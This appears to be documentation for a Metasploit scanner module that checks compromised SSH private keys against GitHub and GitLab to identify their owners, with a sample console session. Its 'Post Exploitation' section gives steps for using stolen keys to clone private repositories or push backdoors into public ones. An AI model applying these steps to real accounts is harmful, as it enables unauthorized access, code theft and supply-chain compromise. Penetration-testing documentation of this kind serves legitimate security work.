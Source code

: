 ## Introduction

This module attempts to authenticate to Git servers using compromised SSH private keys. This module can be used to check a single key or recursively look through a directory. It will not attempt to check keys that have a passphrase, however a bruteforce attack could be launched on a key and then the passphrase could be disabled.

## Setup

1. `ssh-keygen -b 2048 -t rsa`
2. Add the RSA pubic key to a GitHub or GitLab account (Public ends in .pub)
3. Follow the usage instructions below
4. Either use KEY_FILE or KEY_DIR to specify the generated SSH private key
5. Run the module
6. Observe that it will identify the GitHub/GitLab user that this key belongs to

## Usage

```
msf5 > use auxiliary/scanner/ssh/ssh_enum_git_keys
msf5 auxiliary(scanner/ssh/ssh_enum_git_keys) > set KEY_DIR /Users/w/.ssh
KEY_DIR => /Users/w/.ssh
msf5 auxiliary(scanner/ssh/ssh_enum_git_keys) > run

Git Access Data
===============

Key Location              User Access
------------              -----------
/Users/w/.ssh/id_ed25519  wdahlenburg

[*] Auxiliary module execution completed
```
## Post Exploitation

Once you have identified a Git user from an SSH key, there are two immediate possibilities.

1. Download private repositories that the owner knows
2. Modify public repositories and inject a backdoor

To begin either, the valid keys will need to be added to the current `~/.ssh/config`.

Example: Using a valid key at /Users/w/.ssh/id_ed25519

1. Write the following to `~/.ssh/config`
`Host github
    User git
    Hostname github.com
    PreferredAuthentications publickey
    IdentityFile /Users/w/.ssh/id_ed25519
    `
2. Clone a repo using the key
` $ git clone github:<username>/Repo.git`
3. Alternatively, modify an existing local repo by modifying the .git/config file
```
...
[remote "origin"]
    url = github:username/reponame.git
...

```
4. Any changes will be pushed using the specified key. Make sure you set the git aliases to match your target.
